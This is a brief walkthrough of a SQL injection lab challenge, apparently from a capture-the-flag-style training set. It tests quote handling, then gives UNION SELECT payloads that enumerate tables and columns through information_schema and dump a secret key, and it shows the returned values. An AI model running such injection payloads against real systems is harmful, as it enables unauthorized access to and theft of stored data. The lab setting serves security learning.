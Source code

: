 # Challenge - 4

This challenge is similar to the previous three challenges and we have 14 tries to dump the secret key

## Initial Analysis

Here also we have to find  how the developer has given the query so we try giving id the values

```sql
0' or 1=1 --+
```

which doesn't give any output and id=

```sql
0" or 1=1 --+
```

gives an output which means the query should be like

```sql
select login_name,password from table_name where id="input"
```

### Solving

Now we can find table name like in the previous problem using

```sql
0" union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES'; --+
```

which gives us the table name :
**fgwsudgyn2**

Now we can find the columns in the table using

```sql
0" union select 1,2,group_concat(column_name) from information_schema.columns where table_name='fgwsudgyn2' and table_schema='CHALLENGES'; --+
```

we get 4 column names:
**id,sessid,secret_90AH,tryy**

The secret key can be in any of these columns but we can always go for the most suspicious one and print the secret key using:

```sql
0" union select 1,2,group_concat(secret_90AH) from fgwsudgyn2; --+
```

We get the secret key:
**ji9RMwjJ3TKkFPrXK5F26Zo7**
